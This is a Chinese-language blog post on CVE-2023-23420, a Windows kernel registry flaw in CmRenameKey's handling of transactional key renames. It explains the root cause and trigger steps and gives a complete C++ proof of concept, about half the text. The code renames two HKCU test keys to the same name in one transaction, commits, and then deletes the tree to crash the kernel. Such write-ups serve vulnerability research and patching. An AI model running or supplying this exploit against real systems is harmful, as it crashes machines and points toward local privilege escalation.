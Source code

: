 ```yaml
---
layout: post
title:  "CVE-2023-23420"
categories: hack
tags:  pentest 
author: cn6u9
---
```


* content
{:toc}
-cve-2023-23420



Windows 中就地重命名注册表项的操作在 NtRenameKey 系统调用中实现，大部分核心逻辑在内部 CmRenameKey 函数（由 NtRenameKey 调用）中找到。为了保持 hive 数据库的状态一致，内核防止键名冲突很重要，如果已经存在另一个具有该名称的键，则永远不要接受重命名键的新名称。这是通过调用 CmpFindSubKeyByNameWithStatus 并在新名称已存在时返回 STATUS_CANNOT_DELETE 来实现的。这足以防止与配置单元中持久存在的子键发生冲突。

然而，还有一类键在 Hive 结构中还没有全局可见的键节点，但具有相应的 KCB 并且实际上存在于事务范围内：尚未提交的事务创建/重命名键. 在这个阶段，它们无法通过 CmpFindSubKeyByNameWithStatus 找到，但是 NtRenameKey/CmRenameKey 应该考虑到它们。它们目前在事务重命名案例中没有得到正确处理，这可能导致配置单元状态不一致、内存损坏和本地攻击者潜在的特权提升。

CmRenameKey 中的具体逻辑对我们来说似乎有些不直观，我们无法基于逆向工程来完全解释它。该函数知道一个密钥的 KCB 可能已经存在的事实，因为它试图通过调用 CmpFindKcbInHashEntryByName 来找到它。仅当未找到 KCB 时，才会使用 CmpCreateKeyControlBlock 分配一个新的。尽管如此，即使为新密钥名称找到了现有的 KCB，也不会进行任何进一步的检查以验证事务处理分支中 KCB 的状态（密钥是否处于活动状态？它是否处于删除/卸载状态等） .?). 相反，CmRenameKey 似乎假定 KCB 处于新鲜/未使用状态并完全拥有它，忽略对象的任何现有状态和依赖项。这表现在几个方面：

1) 例程无条件地覆盖 KCB 的部分内容，特别是 KCB.KeyCell 和 KCB.TransKCBOwner 字段（可能已经设置为不同的值）。
2) 例程在 KCB 上调用 CmpLockIXLockExclusive 两次而不检查返回值，就好像该函数永远不会失败（如果 KCB 的锁已经被另一个事务占用，它就会失败）。
3) 如果稍后在 CmRenameKey 期间遇到任何错误，则通过调用 CmpMarkKeyUnbacked/CmpDereferenceKeyControlBlockWithLock 销毁 KCB，并且不会尝试保留其现有状态。

我们发现以上是一个强有力的指标，表明该函数假设在 KCB 的新副本上运行，即使它在 CmpFindKcbInHashEntryByName 返回时可能已完全初始化并起作用。

原则上，触发漏洞需要三个步骤：

1) 通过创建（例如 RegCreateKeyEx）或重命名（例如 RegRenameKey）操作以事务方式创建测试密钥，但不要提交它。
2) 事务性地将另一个键重命名为步骤 1 中键的名称。
3) 提交步骤 1/2 中的事务。

从理论上讲，这应该会导致创建两个具有相同名称的子项，这通常是不可能的，但需要一些工作才能转换为内存损坏原语。

在实践中，由于 CmpAddSubKeyToList/CmpAddToLeaf 函数之间面临重复键名的混淆，我们立即得到数据库的不一致状态：_CM_KEY_NODE.SubKeyCounts[1] 等于 0x2，但 _CM_KEY_NODE.SubKeyLists[ 指向的键索引1] 只有一个条目。
附件是一个概念验证漏洞，它执行以下步骤：
1. 创建 HKCU\Test\AAAA 和 HKCU\Test\BBBB 密钥。
2. 将两个子项事务性地重命名为 HKCU\Test\CCCC。
3. 提交事务。
4. 尝试通过 RegDeleteTree 递归删除整个 HKCU\Test 树。

第 2-3 步触发错误，第 4 步触发内核崩溃。发生的情况是，一旦 HCKU\Test\CCCC 第一次被删除，子键索引变为空，因此 _CM_KEY_NODE.SubKeyLists[1] 单元格索引重置为 -1 (0xFFFFFFFF)。但是 _CM_KEY_NODE.SubKeyCounts[1] 仅从 0x2 递减到 0x1，因此当 RegDeleteTree API 尝试再次枚举子键以查找下一个要删除的键时，内核尝试将无效的 -1 索引转换为虚拟地址，并生成未处理的异常。

poc:

```cpp
#include <Windows.h>
#include <ktmw32.h>
#include <sddl.h>

#include <cstdio>

#pragma comment(lib, "ktmw32")

int main(int argc, char** argv) {
  LSTATUS st;

  //
  // Create two test keys under HKCU\Test.
  //

  HKEY hTestKeyA, hTestKeyB;
  st = RegCreateKeyExA(HKEY_CURRENT_USER,
                       "Test\\AAAA",
                       0,
                       NULL,
                       REG_OPTION_VOLATILE,
                       KEY_ALL_ACCESS,
                       NULL,
                       &hTestKeyA,
                       NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegCreateKeyExA #1 failed with error %d\n", st);
    return 1;
  }

  RegCloseKey(hTestKeyA);

  st = RegCreateKeyExA(HKEY_CURRENT_USER,
                       "Test\\BBBB",
                       0,
                       NULL,
                       REG_OPTION_VOLATILE,
                       KEY_ALL_ACCESS,
                       NULL,
                       &hTestKeyB,
                       NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegCreateKeyExA #2 failed with error %d\n", st);
    return 1;
  }

  RegCloseKey(hTestKeyB);

  //
  // Create a transaction.
  //

  HANDLE hTrans = CreateTransaction(NULL, NULL, 0, 0, 0, 0, NULL);
  if (hTrans == INVALID_HANDLE_VALUE) {
    printf("CreateTransaction failed with error %u\n", GetLastError());
    return 1;
  }

  //
  // Open the test keys and rename both of them transactionally to the same new
  // name.
  //

  st = RegOpenKeyTransactedA(HKEY_CURRENT_USER,
                             "Test\\AAAA",
                             0,
                             KEY_ALL_ACCESS,
                             &hTestKeyA,
                             hTrans,
                             NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegOpenKeyTransactedA #1 failed with error %d\n", st);
    return 1;
  }

  st = RegOpenKeyTransactedA(HKEY_CURRENT_USER,
                             "Test\\BBBB",
                             0,
                             KEY_ALL_ACCESS,
                             &hTestKeyB,
                             hTrans,
                             NULL);

  if (st != ERROR_SUCCESS) {
    printf("RegOpenKeyTransactedA #2 failed with error %d\n", st);
    return 1;
  }

  st = RegRenameKey(hTestKeyA, NULL, L"CCCC");

  if (st != ERROR_SUCCESS) {
    printf("RegRenameKey #1 failed with error %d\n", st);
    return 1;
  }

  st = RegRenameKey(hTestKeyB, NULL, L"CCCC");

  if (st != ERROR_SUCCESS) {
    printf("RegRenameKey #2 failed with error %d\n", st);
    return 1;
  }

  //
  // Commit the transaction.
  //

  if (!CommitTransaction(hTrans)) {
    printf("CommitTransaction failed with error %u\n", GetLastError());
    return 1;
  }

  //
  // Try to recursively delete the test key tree, triggering a crash.
  //

  RegDeleteTree(HKEY_CURRENT_USER, L"Test");

  return 0;
}
```

# 小结


